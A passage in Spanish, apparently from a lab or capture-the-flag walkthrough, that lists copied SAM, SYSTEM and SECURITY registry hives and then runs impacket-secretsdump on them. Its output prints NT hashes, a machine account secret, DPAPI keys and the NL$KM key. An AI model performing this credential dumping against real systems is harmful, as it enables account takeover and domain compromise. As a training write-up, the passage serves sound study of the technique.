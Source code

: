 Y ya tenemos los ficheros en nuestro sistema.
```console
ls
BackupOperatorToDA.exe  domain_computers_by_os.html  domain_policy.html          domain_users.html  SYSTEM
Backup_script.ps1       domain_computers.html        domain_trusts.html          SAM                users.txt
combo.txt               domain_groups.html           domain_users_by_group.html  SECURITY
```

Una vez teniendolos, podemos hacer uso de `impacket-secretsdump` para conseguir los hashes de la SAM.
```console
$ impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL                                                         
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                                                
                                                                                                                                        
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                    
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::         
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                 
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                      
[*] Dumping cached domain logon information (domain/username:hash)             
[*] Dumping LSA Secrets
[*] $MACHINE.ACC                                                                                                                        
$MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588
c0f269a7e182c3c04b96f7b5bc4af488e128f8                                                                                                  
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696                                                                               
[*] DPAPI_SYSTEM                                                    
dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
dpapi_userkey:0x4bb80d985193ae360a4d97f3ca06350b02549fbb                       
[*] NL$KM                                                                                                                               
 0000   CC 15 01 F7 64 39 1E 7A  5E 53 8C C1 74 E6 2B 01   ....d9.z^S..t.+.
 0010   36 9B 50 B8 D0 72 23 D9  B6 C5 6E 92 2F 57 08 D8   6.P..r#...n./W..
 0020   1E BA 8E 81 23 25 03 27  36 4C 19 B4 96 CD 25 1F   ....#%.'6L....%.
 0030   8F F9 7F 5D 71 E6 6E 8C  FF CB EB 5E 4E A4 E6 96   ...]q.n....^N...                                                                                   
NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696                        
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'                                                                                     
[*] Cleaning up...  
```
